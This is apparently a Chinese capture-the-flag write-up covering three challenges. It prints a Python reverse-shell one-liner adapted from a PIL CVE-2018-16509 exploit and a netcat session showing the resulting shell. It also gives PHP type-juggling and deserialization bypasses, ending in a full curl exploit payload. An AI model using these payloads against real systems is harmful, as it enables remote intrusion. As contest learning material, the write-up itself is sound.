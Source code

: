 ### 0x01 resize your image

vulhub [原题](https://github.com/vulhub/vulhub/tree/master/python/PIL-CVE-2018-16509), payload 改一下  

`python -c "import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(('Your IP',Your Port));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(['/bin/sh','-i']);"`

```python
$ nc -lvvp 19132
Listening on [0.0.0.0] (family 0, port 19132)
Connection from 212.64.85.131 40172 received!
/bin/sh: 0: can't access tty; job control turned off
# ls
app.py
flag
# cat flag
C1CTF{hello_world}
```

### 0x02 web签到

改一下 cookie 就行, 我用的是 [EditThisCookie](https://chrome.google.com/webstore/detail/edit-this-cookie/fngmhnnpilhplaeedifhccceomclgfbg)

![](https://i.loli.net/2019/03/08/5c826dfb50be6.png#center)  

![](https://i.loli.net/2019/03/08/5c826e11a3277.png#center)  

### 0x03 php是世界上最好的语言  

在 http://212.64.85.131/robots.txt 可以找到提示, `Disallow: /flag.zip`, 下下来就可以得到源码, 接下来就是源码审计

1. `($a == $b) + (md5($a) != sha1($b))` 这个很好绕, 传两个值不一样的数组就可以绕过, 比如 `a[1]=1&b[1]=2`. 原理是 md5 和 sha1 对 数组会返回 NULL

```php
php > var_dump(md5(array()));
PHP Warning:  md5() expects parameter 1 to be string, array given in php shell code on line 1

Warning: md5() expects parameter 1 to be string, array given in php shell code on line 1
NULL
```

2.`$token['user'] == "????????" && $token['pass'] == "????????"` 我竟然以为真的要想办法绕过... 后来试了下居然真的只要让 `user=????????` 就行了233

3.`$flag->middle === $flag->left && $flag->middle === $flag->right` 这个绕过第一感觉是不可能, 除非能有像 C++ 那样的引用, 然后百度了一下... 居然真的有这种骚东西 还真的可以序列化 233

如果反序列化这方面有问题的话可以百度一下对应的教程

整合一下得到 payload `curl "http://212.64.85.131/?mode=begin&a[1]=1&b[1]=2" -d 'token=a:2:{s:4:"user";s:8:"????????";s:4:"pass";s:8:"????????";}&flag=O:9:"last_task":3:{s:4:"left";N;s:6:"middle";R:2;s:5:"right";R:2;}'`
